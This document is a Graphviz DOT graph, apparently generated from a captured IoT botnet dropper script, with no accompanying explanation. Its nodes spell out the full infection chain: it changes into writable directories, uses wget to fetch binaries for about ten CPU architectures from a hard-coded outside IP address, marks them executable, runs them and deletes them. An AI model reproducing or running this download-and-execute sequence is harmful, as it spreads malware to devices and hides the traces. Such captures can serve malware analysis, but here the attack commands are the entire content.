 digraph {
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 10 [label="||,"];
10 [label="wget http://208.67.1.253/jackmymips "];
10 -> 12 [label=";,"];
12 [label="chmod +x jackmymips "];
12 -> 14 [label=";,"];
14 [label="./jackmymips "];
14 -> 16 [label=";,"];
16 [label="rm -rf jackmymips "];
16 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 28 [label="||,"];
28 [label="wget http://208.67.1.253/jackmymipsel "];
28 -> 30 [label=";,"];
30 [label="chmod +x jackmymipsel "];
30 -> 32 [label=";,"];
32 [label="./jackmymipsel "];
32 -> 34 [label=";,"];
34 [label="rm -rf jackmymipsel "];
34 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 46 [label="||,"];
46 [label="wget http://208.67.1.253/jackmysh4 "];
46 -> 48 [label=";,"];
48 [label="chmod +x jackmysh4 "];
48 -> 50 [label=";,"];
50 [label="./jackmysh4 "];
50 -> 52 [label=";,"];
52 [label="rm -rf jackmysh4 "];
52 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 64 [label="||,"];
64 [label="wget http://208.67.1.253/jackmyx86 "];
64 -> 66 [label=";,"];
66 [label="chmod +x jackmyx86 "];
66 -> 68 [label=";,"];
68 [label="./jackmyx86 "];
68 -> 70 [label=";,"];
70 [label="rm -rf jackmyx86 "];
70 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 82 [label="||,"];
82 [label="wget http://208.67.1.253/jackmyi586 "];
82 -> 84 [label=";,"];
84 [label="chmod +x jackmyi586 "];
84 -> 86 [label=";,"];
86 [label="./jackmyi586 "];
86 -> 88 [label=";,"];
88 [label="rm -rf jackmyi586 "];
88 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 100 [label="||,"];
100 [label="wget http://208.67.1.253/jackmypowerpc "];
100 -> 102 [label=";,"];
102 [label="chmod +x jackmypowerpc "];
102 -> 104 [label=";,"];
104 [label="./jackmypowerpc "];
104 -> 106 [label=";,"];
106 [label="rm -rf jackmypowerpc "];
106 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 118 [label="||,"];
118 [label="wget http://208.67.1.253/jackmypowerpc440fp "];
118 -> 120 [label=";,"];
120 [label="chmod +x jackmypowerpc440fp "];
120 -> 122 [label=";,"];
122 [label="./jackmypowerpc440fp "];
122 -> 124 [label=";,"];
124 [label="rm -rf jackmypowerpc440fp "];
124 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 136 [label="||,"];
136 [label="wget http://208.67.1.253/jackmym86k "];
136 -> 138 [label=";,"];
138 [label="chmod +x jackmym86k "];
138 -> 140 [label=";,"];
140 [label="./jackmym86k "];
140 -> 142 [label=";,"];
142 [label="rm -rf jackmym86k "];
142 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 154 [label="||,"];
154 [label="wget http://208.67.1.253/jackmysparc "];
154 -> 156 [label=";,"];
156 [label="chmod +x jackmysparc "];
156 -> 158 [label=";,"];
158 [label="./jackmysparc "];
158 -> 160 [label=";,"];
160 [label="rm -rf jackmysparc "];
160 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 172 [label="||,"];
172 [label="wget http://208.67.1.253/jackmyarmv4 "];
172 -> 174 [label=";,"];
174 [label="chmod +x jackmyarmv4 "];
174 -> 176 [label=";,"];
176 [label="./jackmyarmv4 "];
176 -> 178 [label=";,"];
178 [label="rm -rf jackmyarmv4 "];
178 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 190 [label="||,"];
190 [label="wget http://208.67.1.253/jackmyarmv5 "];
190 -> 192 [label=";,"];
192 [label="chmod +x jackmyarmv5 "];
192 -> 194 [label=";,"];
194 [label="./jackmyarmv5 "];
194 -> 195 [label=";,"];
}
